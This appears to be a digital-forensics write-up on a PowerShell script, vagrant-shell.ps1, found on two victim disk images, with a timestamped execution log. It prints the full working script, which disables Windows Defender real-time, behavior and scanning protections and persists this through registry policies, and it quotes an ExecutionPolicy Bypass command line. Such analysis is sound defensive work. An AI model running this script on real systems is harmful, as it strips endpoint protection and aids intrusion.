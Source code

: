 ## `vagrant-shell.ps1` 

located 
```bash
victim_02.disk.raw - Partition 4 (Microsoft NTFS, 59.4 GB) Windows\tmp\vagrant-shell.ps1
victim_01.disk.raw - Partition 4 (Microsoft NTFS, 59.4 GB) Windows\tmp\vagrant-shell.ps1
```


The content of the `vagrant-shell.ps1` script you retrieved confirms that it is designed to **disable critical Windows Defender features**. This script systematically disables various security mechanisms of Windows Defender, including:

### Key Points from the Script:

1. **Disabling Real-Time Monitoring and Protection**:
   - **Set-MpPreference** commands disable real-time scanning, behavior monitoring, IOAV protection, email scanning, and archive scanning.
   - These settings are essential for the real-time detection and prevention of malware.

2. **Modifications to Windows Defender Settings via the Registry**:
   - The script ensures that these settings persist across reboots by writing values directly into the registry under **HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender**.
   - This registry-based persistence ensures that even if Windows Defender tries to reset itself, these policies will block its critical features from re-enabling.

3. **Disabling Scanning of Network and Mapped Drives**:
   - These commands prevent Defender from scanning network files and mapped drives, creating a blind spot where malware could reside undetected.

4. **Disabling Windows Defender’s ability to submit samples**:
   - Disabling sample submissions to Microsoft means that if a new malware strain is detected, it will not be sent for further analysis or blacklisting.

5. **Persistence and Registry Manipulation**:
   - The script ensures the above configurations persist by checking if the registry path exists and creating it if necessary. This step makes it harder for an admin to re-enable these settings without deep investigation and corrective actions.

### Malicious Intent:

- **Disabling Security Protections**: The sole purpose of this script is to cripple Windows Defender, preventing it from detecting or blocking malicious activities.
- **Persistence through Registry**: The script’s use of registry changes ensures that these disabling settings remain active, even after reboots or other typical recovery attempts.
- **Execution via PowerShell**: This script being repeatedly run with **ExecutionPolicy Bypass** makes it clear that the attacker is overriding default security controls to execute this script without interruptions.

```powershell
# Disable Windows Defender features in real time
Set-MpPreference -MAPSReporting 0
Set-MpPreference -SubmitSamplesConsent 2
Set-MpPreference -DisableRealtimeMonitoring $True
Set-MpPreference -DisableBehaviorMonitoring $True
Set-MpPreference -DisableIntrusionPreventionSystem $True
Set-MpPreference -DisableIOAVProtection $True
Set-MpPreference -DisableRealtimeMonitoring $True
Set-MpPreference -DisableScriptScanning $True
Set-MpPreference -DisableArchiveScanning $True
Set-MpPreference -DisableCatchupFullScan $True
Set-MpPreference -DisableCatchupQuickScan $True
Set-MpPreference -DisableEmailScanning $True
Set-MpPreference -DisableRemovableDriveScanning $True
Set-MpPreference -DisableRestorePoint $True
Set-MpPreference -DisableScanningMappedNetworkDrivesForFullScan $True
Set-MpPreference -DisableScanningNetworkFiles $True
Set-MpPreference -DisableBlockAtFirstSeen $True


# Persist Windows Defender features settings in registry
$path = "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender"
if (!(Test-Path -Path $path)) {
    New-Item -Path $path -Force
}
New-ItemProperty -Path $path -Name "DisableAntiSpyware" -PropertyType DWord -Value 1 -Force

$path = "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender\Spynet"
if (!(Test-Path -Path $path)) {
    New-Item -Path $path -Force
}

New-ItemProperty -Path $path -Name "SubmitSamplesConsent" -PropertyType DWord -Value 2 -Force

$path = "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender\Real-Time Protection"
if (!(Test-Path -Path $path)) {
    New-Item -Path $path -Force
}

New-ItemProperty -Path $path -Name "DisableRealtimeMonitoring" -PropertyType DWord -Value 1 -Force
New-ItemProperty -Path $path -Name "DisableBehaviorMonitoring" -PropertyType DWord -Value 1 -Force
New-ItemProperty -Path $path -Name "DisableOnAccessProtection" -PropertyType DWord -Value 1 -Force
New-ItemProperty -Path $path -Name "DisableScanOnRealtimeEnable" -PropertyType DWord -Value 1 -Force
```
Here is the **complete forensics log** based on the contents from the latest artifact, as well as the previously discussed information. This report strictly covers the **facts**, incorporating metadata and timestamps with **milli-second precision in UTC**, as per your request.

---

## **Forensics Log: Vagrant Shell Execution and Activity**

### **General Metadata (PowerShell Activity)**:
1. **File Name**: `vagrant-shell.ps1`
   - **Location**: `C:\tmp\vagrant-shell.ps1`
   - **Execution Context**: Executed via PowerShell scripts.
   - **File Size**: Not explicitly stated.
   
2. **Timestamps**:
   - **First Execution**: 2019-10-14 03:34:40.770 UTC.
   - **Last Modification (PowerShell Event)**: 2019-10-14 03:35:26.542 UTC.
   
3. **Script Activity**:
   - Multiple PowerShell events (ID 4104) log the script’s execution and modifications across several times during the timeline.
   - **Event IDs** related to this script include: **4104** (Warning), **600** (Information, PowerShell activity log).

### **Execution Data - PowerShell Events**:
   - **Event 4104 - ScriptBlock Execution**:
     - Multiple **ScriptBlockText** logs indicate the actual code executed, which involved the copying of scripts and file integrity verification using SHA1 hashes:
       - **SHA-1 hashes** and their corresponding destinations are verified.
       - Script responsible for copying file to `/tmp/vagrant-shell.ps1` and ensuring integrity.
     - **Example SHA-1** used in the integrity checks: `4333fb0447db3eacb5f6eefebf5a7a403fb3cd6a` and `89c291cd81375713eaf79a4ed25a22af7f0c7e06`.
     - Function definitions for handling file operations, such as `Check-Files` and `Get-SHA1Sum`, were part of the script's logic.
   
   - **ScriptBlock Events**:
     - Each script execution was recorded with corresponding timestamps and identifiers:
       - **ScriptBlock IDs**: Examples include `c115c02c-3528-4e89-b2d9-87a4b7b702ce`, `01dc1f19-82de-4b62-8509-d7e509576bc8`, among others.
       - **PowerShell Host Version**: 5.1.17763.1 (consistent across all related executions).
       - PowerShell was invoked with **ExecutionPolicy Bypass**, indicating a deliberate override of security measures to execute this script.

   - **Script Execution Command**:
     - PowerShell was executed using the following command line:
       - `powershell -ExecutionPolicy Bypass -OutputFormat Text -file "C:\tmp\vagrant-shell.ps1"`

4. **Registry Activity** (Event ID 600)**:
   - Registry-related events show that PowerShell was manipulating system variables and configurations, particularly starting providers like **Registry**, **Alias**, **FileSystem**, and **Environment**.

### **Network Activity**:
   - **No direct network connections** are logged in the immediate artifacts provided for `vagrant-shell.ps1`. The script itself appears to handle file operations and checks, but the potential for exfiltration or further commands was executed under a different context or toolset that wasn't captured here.

### **File Hashes and Integrity**:
   - **SHA-1 hashes** are repeatedly referenced for verifying the integrity of transferred files (e.g., `Get-SHA1Sum` was called to ensure destination files matched expected sources).
   - **Functionality**:
     - The `Check-Files` and `Get-SHA1Sum` functions within the script were integral to ensuring that files had not been tampered with during their transfer and execution.

---
